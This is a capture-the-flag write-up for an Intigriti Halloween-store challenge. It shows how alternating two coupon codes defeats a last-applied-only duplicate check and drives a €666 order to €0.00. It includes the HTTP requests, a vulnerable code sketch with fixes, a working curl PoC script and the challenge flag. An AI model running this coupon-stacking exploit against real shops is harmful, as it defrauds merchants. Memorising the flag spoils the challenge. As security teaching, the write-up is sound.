

# Intigriti Challenge 1026 — Halloween Store: Coupon Stacking to a €0.00 Checkout

> **Platform:** Intigriti Challenge 1026 (October 2026)
> **Target:** `https://challenge-1026.challenges.intigriti.io`
> **Vulnerability:** Business logic — improper coupon stacking (CWE-840)
> **Severity:** Medium — CVSS 4.0 **6.9**
> **Vector:** `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:L/VI:L/VA:N/SC:N/SI:N/SA:N`
> **Flag:** `INTIGRITI{094638e6-ba2f-4c50-8bb4-41ced0d5debd}`
> **Date:** 2026-10-20
> **Author:** senti

---

## TL;DR

The Halloween Store gives every anonymous visitor €66.00 of store credit, and the challenge item — *The Midnight Collection* — costs €666.00. Its cart accepts promotion codes, and the server rejects re-applying a coupon only when it matches the **most recently applied** promotion. Interleaving two different valid coupons (`NIGHT20` from the site banner and `NEWS30` from the newsletter) bypasses that check and stacks each coupon's `count`. Discounts are additive and never clamped:

```
amount = subtotal × percent / 100 × count
```

Four requests later the cart totals **€0.00**, checkout succeeds for **€0.00**, and the receipt contains the flag.

---

## Table of Contents

- [Challenge overview](#challenge-overview)
- [Reconnaissance](#reconnaissance)
- [Vulnerability analysis](#vulnerability-analysis)
- [Exploitation](#exploitation)
- [Root cause](#root-cause)
- [Impact](#impact)
- [Remediation](#remediation)
- [PoC](#poc)
- [Lessons learned](#lessons-learned)
- [References](#references)
- [Disclaimer](#disclaimer)

---

## Challenge overview

The target is a small Halloween-themed candy shop. Each visitor receives a store session with a balance:

```json
{"ok":true,"credit":6600}
```

The catalog exposes six products. Five cost €8.90–€14.90; the sixth is the challenge target:

| ID | Name | Price |
|---|---|---|
| `citrus-loops` | Citrus Loops | €8.90 |
| `berry-hearts` | Berry Hearts | €9.50 |
| `orchard-drops` | Orchard Drops | €10.90 |
| `cloud-twists` | Cloud Twists | €12.50 |
| `cocoa-crunch` | Cocoa Crunch | €14.90 |
| `midnight-vault` | **The Midnight Collection** | **€666.00** |

The goal is to buy `midnight-vault` with €66.00 of credit. Paying the difference is impossible; the payment boundary has to be broken.

---

## Reconnaissance

The application is a server-rendered site with a small JSON API. The SPA logic lives in `/static/js/app.js` and reveals every endpoint used by the UI.

### API map

| Method | Endpoint | Purpose |
|---|---|---|
| `GET` | `/api/session` | Issues the session cookie, returns store credit |
| `GET` | `/api/products` | Product catalog |
| `GET` | `/api/cart` | Current cart, totals and applied promotions |
| `POST` | `/api/cart/items` | Add a product (`quantity` is accepted but ignored) |
| `POST` | `/api/cart/coupon` | Apply a promotion code |
| `POST` | `/api/cart/coupon/remove` | Remove a promotion |
| `POST` | `/api/newsletter` | Issues the `NEWS30` welcome code |
| `POST` | `/api/checkout` | Charges the cart total against store credit |

### Interesting observations

1. Cart state is fully server-side and returned on every mutation.
2. Each promotion object exposes a `count` field, rendered by the UI as `× count` — an implicit hint that a coupon can be applied more than once.
3. Two valid coupon codes exist: `NIGHT20` (announced in the site banner) and `NEWS30` (revealed after subscribing to the newsletter).
4. The cart page copy states that items cannot be removed and that codes are case-insensitive and removable before checkout.

Applying a code twice in a row is rejected:

```json
{"ok":false,"error":"coupon_already_applied","message":"Coupon already applied."}
```

That check looked like the only defense — so the next question was what exactly it compares against.

---

## Vulnerability analysis

### The duplicate check is order-dependent

The guard does **not** compare the requested code against the full set of applied promotions. It only compares against the **last applied** coupon. Interleaving a different valid code resets the comparison:

```
apply NIGHT20  -> NIGHT20 (count 1)
apply NEWS30   -> NEWS30  (count 1)   last = NEWS30
apply NIGHT20  -> guard compares NIGHT20 vs NEWS30 -> passes
                  NIGHT20 (count 2)
apply NEWS30   -> last = NIGHT20 -> passes
                  NEWS30  (count 2)
```

### The discount is additive and unclamped

Each promotion contributes `percent × subtotal` per application:

```
amount = subtotal × percent / 100 × count
```

The server sums the per-promotion amounts and subtracts them from the subtotal without clamping:

```
total = subtotal - Σ(promotion.amount)
```

With a €666.00 subtotal:

| Promotion | Percent | Count | Amount |
|---|---|---|---|
| `NIGHT20` | 20% | 2 | €266.40 |
| `NEWS30` | 30% | 2 | €399.60 |
| **Total discount** | | | **€666.00** |
| **Cart total** | | | **€0.00** |

### Checkout trusts the derived total

`POST /api/checkout` requires only `credit >= total`. Once the total is forced to €0.00, the order is accepted and `paid` is recorded as 0. There is no independent catalog/price-authority check.

Notably, pushing the stack one iteration further produces a negative total and terminates the upstream worker (HTTP 503), confirming that the total has no non-negative invariant either.

---

## Exploitation

All requests are unauthenticated; the only state is the session cookie returned by `/api/session`.

### Step 1 — Create a session and add the target item

```http
POST /api/cart/items HTTP/2
Host: challenge-1026.challenges.intigriti.io
Content-Type: application/json

{"productId":"midnight-vault"}
```

Cart state:

```json
{"subtotal":66600,"total":66600,"credit":6600,"canCheckout":false,"promotions":[]}
```

### Step 2 — Obtain the second coupon

```http
POST /api/newsletter HTTP/2
Host: challenge-1026.challenges.intigriti.io
Content-Type: application/json

{"email":"poc@example.com"}
```

```json
{"ok":true,"code":"NEWS30","message":"Your first-order code is ready."}
```

### Step 3 — Alternate the coupons

Apply `NIGHT20`, `NEWS30`, `NIGHT20`, `NEWS30` in that order. Every request returns `200` and `"ok": true`.

| # | Coupon applied | Message | Cart total | Promotions |
|---|---|---|---|---|
| 1 | `NIGHT20` | 20% promotion applied | €532.80 | `NIGHT20 ×1` |
| 2 | `NEWS30` | 30% promotion applied | €333.00 | `NIGHT20 ×1`, `NEWS30 ×1` |
| 3 | `NIGHT20` | **20% promotion applied** | €199.80 | `NIGHT20 ×2`, `NEWS30 ×1` |
| 4 | `NEWS30` | **30% promotion applied** | **€0.00** | `NIGHT20 ×2`, `NEWS30 ×2` |

Final cart:

```json
{
  "ok": true,
  "cart": {
    "items": [
      {"id":"midnight-vault","name":"The Midnight Collection","price":66600,"quantity":1,"lineTotal":66600}
    ],
    "itemCount": 1,
    "subtotal": 66600,
    "discount": 66600,
    "total": 0,
    "credit": 6600,
    "canCheckout": true,
    "promotions": [
      {"code":"NIGHT20","percent":20,"amount":26640,"count":2},
      {"code":"NEWS30","percent":30,"amount":39960,"count":2}
    ]
  }
}
```

### Step 4 — Check out

```http
POST /api/checkout HTTP/2
Host: challenge-1026.challenges.intigriti.io
Content-Type: application/json

{}
```

```json
{
  "ok": true,
  "receipt": {
    "orderId": "BLE-8D3E1B766F",
    "paid": 0,
    "credit": 6600,
    "message": "Your order is confirmed and being prepared.",
    "flag": "INTIGRITI{094638e6-ba2f-4c50-8bb4-41ced0d5debd}"
  }
}
```

The €666.00 item was purchased for **€0.00**, and the full €66.00 starting credit was never spent.



---

## Root cause

The vulnerable logic can be summarized as:

```python
def apply_coupon(cart, code):
    coupon = CATALOG.get(code.upper().strip())
    if not coupon:
        return error("invalid_coupon")

    applied = cart["promotions"]

    # VULNERABLE: only the last applied promotion is checked
    if applied and applied[-1]["code"] == coupon["code"]:
        return error("coupon_already_applied")

    promotion = get_or_create(applied, coupon["code"])
    promotion["count"] += 1
    promotion["amount"] = cart["subtotal"] * coupon["percent"] / 100 * promotion["count"]

    # No maximum count, no clamp of the total
    cart["discount"] = sum(p["amount"] for p in applied)
    cart["total"] = cart["subtotal"] - cart["discount"]
```

Three independent defects compose into a full payment bypass:

1. **Order-dependent deduplication** — comparing only against the last coupon instead of the full set.
2. **Unbounded stacking** — `count` has no maximum, and the amount scales linearly with it.
3. **No financial invariants** — `discount` is not clamped to `subtotal`, and `total` is not constrained to be non-negative; checkout trusts the derived value.

---

## Impact

- **Revenue loss / free goods:** an unauthenticated visitor can order the most expensive item for €0.00. The technique scales to any cart size and any number of orders.
- **Payment-boundary bypass:** `canCheckout: true` and `paid: 0` prove the server itself accepted the free order — this is not a UI-only display bug.
- **Discount amplification:** because `count` is unbounded, the effective discount can exceed 100% of the subtotal, corrupting order state and any downstream settlement/refund/ledger logic that consumes it.
- **Availability (secondary):** one extra application drives the total negative and terminates the upstream worker with HTTP 503, a deliberately triggerable crash.
- **Confidentiality (limited):** the checkout receipt discloses an internal secret (the challenge flag) to an unauthenticated user.

### CVSS 4.0

```
CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:L/VI:L/VA:N/SC:N/SI:N/SA:N
```

| Metric | Value | Rationale |
|---|---|---|
| AV | Network | Public API |
| AC | Low | Four deterministic requests |
| AT | None | No special conditions |
| PR | None | Anonymous session only |
| UI | None | No victim interaction |
| VC | Low | Receipt discloses an internal secret (flag) |
| VI | Low | Order/price state modified without payment |
| VA | None | No availability impact |
| SC / SI / SA | None | No subsequent system impact |

**Score: 6.9 (Medium)**

---

## Remediation

1. **Deduplicate against the full promotion set.** Reject an application if the canonical code exists anywhere in the cart's applied promotions:

   ```python
   if any(p["code"] == coupon["code"] for p in applied):
       return error("coupon_already_applied")
   ```

2. **Enforce per-coupon limits.** Define and enforce `max_uses` per coupon and a cap on the number of simultaneous promotions.

3. **Clamp the discount and enforce invariants:**

   ```python
   discount = min(subtotal, sum(p["percent"] / 100 * subtotal * p["count"] for p in applied))
   total = max(0, subtotal - discount)
   ```

   Reject any request whose computed discount or total falls outside the valid range instead of persisting it.

4. **Recompute at checkout.** Do not trust a stored or derived total. Rebuild the order from the authoritative catalog inside the checkout transaction and assert:

   ```
   total >= 0
   discount <= subtotal
   paid == total
   paid <= credit
   ```

5. **Make promotion mutation atomic per cart** to eliminate future TOCTOU races between apply, remove, and checkout.

---

## PoC

A self-contained Bash script. It creates a fresh session, adds the target item, obtains `NEWS30`, stacks both coupons to €0.00, and checks out. No external dependencies beyond `curl` and `python3` for pretty-printing.

```bash
#!/usr/bin/env bash
# Intigriti Challenge 1026 — Halloween Store coupon-stacking PoC
set -euo pipefail

T="https://challenge-1026.challenges.intigriti.io"
JAR="$(mktemp)"
trap 'rm -f "$JAR"' EXIT

# 1. Anonymous session
curl -s -c "$JAR" -b "$JAR" "$T/api/session"; echo

# 2. Add the €666.00 item
curl -s -c "$JAR" -b "$JAR" -X POST "$T/api/cart/items" \
  -H 'Content-Type: application/json' \
  -d '{"productId":"midnight-vault"}' >/dev/null

# 3. Obtain the 30% newsletter code
curl -s -c "$JAR" -b "$JAR" -X POST "$T/api/newsletter" \
  -H 'Content-Type: application/json' \
  -d '{"email":"poc@example.com"}'; echo

# 4. Alternate the two valid coupons — the duplicate guard only
#    compares against the last applied promotion
for code in NIGHT20 NEWS30 NIGHT20 NEWS30; do
  curl -s -b "$JAR" -c "$JAR" -X POST "$T/api/cart/coupon" \
    -H 'Content-Type: application/json' \
    -d "{\"code\":\"$code\"}" >/dev/null
done

# 5. Show the €0.00 cart
curl -s -b "$JAR" "$T/api/cart" | python3 -m json.tool

# 6. Check out and print the receipt
curl -s -b "$JAR" -X POST "$T/api/checkout" \
  -H 'Content-Type: application/json' -d '{}' | python3 -m json.tool
```

### Expected output

```text
{"ok":true,"credit":6600}
{"ok":true,"code":"NEWS30","message":"Your first-order code is ready."}
{
  "ok": true,
  "cart": {
    "items": [{"id": "midnight-vault", "price": 66600, "quantity": 1, "lineTotal": 66600}],
    "itemCount": 1,
    "subtotal": 66600,
    "discount": 66600,
    "total": 0,
    "credit": 6600,
    "canCheckout": true,
    "promotions": [
      {"code": "NIGHT20", "percent": 20, "amount": 26640, "count": 2},
      {"code": "NEWS30", "percent": 30, "amount": 39960, "count": 2}
    ]
  }
}
{
  "ok": true,
  "receipt": {
    "orderId": "BLE-8D3E1B766F",
    "paid": 0,
    "credit": 6600,
    "message": "Your order is confirmed and being prepared.",
    "flag": "INTIGRITI{094638e6-ba2f-4c50-8bb4-41ced0d5debd}"
  }
}
```

> **Warning:** do not apply a fifth coupon. A negative total kills the upstream worker (`HTTP 503 upstream connect error`).

---

## Lessons learned

- **Business logic lives in state machines.** The bug was not in a parser or a query — it was in which element of a list a guard compared against.
- **`count`-like fields are a fingerprint.** Any endpoint returning a usage counter (`count`, `times`, `uses`) is advertising an operation that can be repeated. Test whether the guard is really a guard.
- **Order-dependent checks are bypassable.** A check that only looks at the previous operation can usually be defeated by interleaving an allowed operation.
- **Validate financial invariants server-side.** Discounts must be clamped, totals must be non-negative, and checkout must recompute from authoritative data instead of trusting derived cart state.
- **Negative values are test cases.** The HTTP 503 on a negative total was a free hint that the invariant was missing.

---

## References

- [CWE-840: Business Logic Errors](https://cwe.mitre.org/data/definitions/840.html)
- [CWE-841: Improper Enforcement of Behavioral Workflow](https://cwe.mitre.org/data/definitions/841.html)
- [CWE-472: External Control of Assumed-Immutable Web Parameter](https://cwe.mitre.org/data/definitions/472.html)
- [CVSS v4.0 Specification](https://www.first.org/cvss/v4-0/)
- [Intigriti Challenges](https://www.intigriti.com/challenges)

---

## Disclaimer

This research was performed against an Intigriti public CTF challenge, which is explicitly intended for security testing. No real users, data, or production systems were involved. Do not use these techniques against systems without explicit authorization.
